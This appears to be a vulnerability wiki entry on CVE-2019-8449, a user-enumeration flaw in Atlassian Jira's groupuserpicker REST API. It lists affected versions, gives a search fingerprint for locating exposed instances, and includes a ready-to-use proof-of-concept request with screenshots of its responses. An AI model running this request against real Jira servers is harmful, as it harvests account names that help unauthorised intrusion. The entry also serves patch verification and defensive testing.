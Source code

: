 # Atlassian Jira groupuserpicker User Information Enumeration Vulnerability CVE-2019-8449

## Vulnerability Description

The Atlassian Jira groupuserpicker interface has a user information enumeration vulnerability. Through the vulnerability, the attacker can obtain the user account name in the application to further penetrate.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Atlassian Jira  <8.4.0</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="ATLASSIAN-JIRA"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1651291151659-56949fca-ccf9-4acb-9a06-0835aba9b385-20220430124430820.png)

Verify POC

```java
/rest/api/latest/groupuserpicker?query=admin&maxResults=50&showAvatar=false
```

When the user exists

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1651293805295-29a3241f-8a24-4b82-8733-9a680679b79a.png)

When the user does not exist

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1651293830754-ba6faf0c-0874-49bd-8ccf-1ae7cdb0581d.png)
